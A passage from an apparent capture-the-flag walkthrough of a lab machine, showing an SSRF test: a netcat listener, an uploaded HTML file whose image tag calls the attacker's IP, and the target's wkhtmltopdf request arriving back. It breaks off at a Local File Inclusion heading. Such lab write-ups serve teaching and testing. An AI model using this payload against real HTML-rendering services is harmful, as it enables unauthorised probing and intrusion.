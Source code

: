 **Server-Side Request Forgery (SSRF)**

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337
listening on [any] 1337 ...

[CONTINUE]
```

```html
<!DOCTYPE html>
<html lang="en">
<body>
	<img src="http://192.168.247.128:1337/SSRF_test" alt="SSRF Test Image">
</body>
</html>
```

![Burp Suite - Upload SSRF Test 1](./assets/screenshots/vulnyx_future_burpsuite_upload_ssrf_test_1.png)

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.226] 43206
GET /SSRF_test HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 192.168.247.128:1337
```

**Local File Inclusion (LFI)**
